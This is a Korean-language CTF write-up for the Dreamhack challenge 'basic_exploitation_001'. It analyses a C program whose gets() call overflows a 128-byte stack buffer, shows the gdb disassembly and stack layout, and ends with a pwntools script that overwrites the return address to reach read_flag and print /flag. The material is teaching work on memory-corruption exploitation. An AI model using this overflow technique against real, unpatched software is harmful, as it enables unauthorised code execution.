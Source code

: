# 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

## 1. 문제 설명

### 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.

"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

### 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    No RELRO

Stack:    No canary found

NX:       NX enabled

PIE:      No PIE (0x8048000)

## 2. 문제 파일 분석

### 2.1. 코드 분석

`cat basic_exploitation_001.c`를 통해 코드를 확인

```
// basic_exploitation_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `0x80(128)byte`의 공간을 생성
    - `gets(buf)`를 통해 입력을 받음

    - `read_flag`함수가 실행되면 `/flag`파일의 내용을 출력

- 주의
    - `gets`함수가 버퍼 크기에 대한 검증이 실행하지 않음
    - `gets`함수의 버퍼를 다 채울 경우 `null`이 들어갈 수 없어 오류 발생

위의 과정을 통해 **stack-bof**를 발생시킬 수 있음을 확인

즉, ASLR 보호 기법이 없는 경우 `gets`함수의 복귀 주소가 저장되어있는 `ret`에 `read_flag`함수의 주소를 넣어 **ret overwrite**이 발생 가능


### 2.2. 실행 파일 분석

`gdb ./basic_exploitation_001`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인

```
Dump of assembler code for function main:
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
=> 0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```

`0x080485d7 <+11>:    lea    eax,[ebp-0x80]`: gets 함수의 시작주소를 저장

`0x080485db <+15>:    call   0x80483d0 <gets@plt>`: `0x80483d0` 주소에 저장된 `gets`함수를 실행

스택에 쌓인 모습
```
낮은 메모리 주소
+-----------------+ <-- buf 배열의 시작 주소 (ebp - 0x80)
|       buf       |
|    (128 byte)   |
+-----------------+
|       sfp       | <-- ebp (베이스 포인터)
|   (Saved EBP)   | <-- 이전 ebp의 값을 가짐
+-----------------+
|       ret       |
|  (Return addr)  | <-- gets 함수 호출 후 반환될 주소
+-----------------+
|       ...       |
+-----------------+ <-- esp (Stack Pointer: 스택 포인터)
높은 메모리 주소
```

`"x/i read_flag" or "disass read_flag"`등을 입력

`0x80485b9 <read_flag>:       push   ebp`

`ret`에 들어갈 `read_flag`함수의 주소 확인

## 3. 문제 풀이 코드

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + sfp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```

`\x90'*128`: 버퍼에 아무 문자로 다 채움

`\x90'*4`: sfp에 아무 문자로 다 채움

*32bit 환경에서는 sfp가 4byte의 크기*

*64bit 환경에서는 sfp가 8byte의 크기*

`\xb9\x85\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력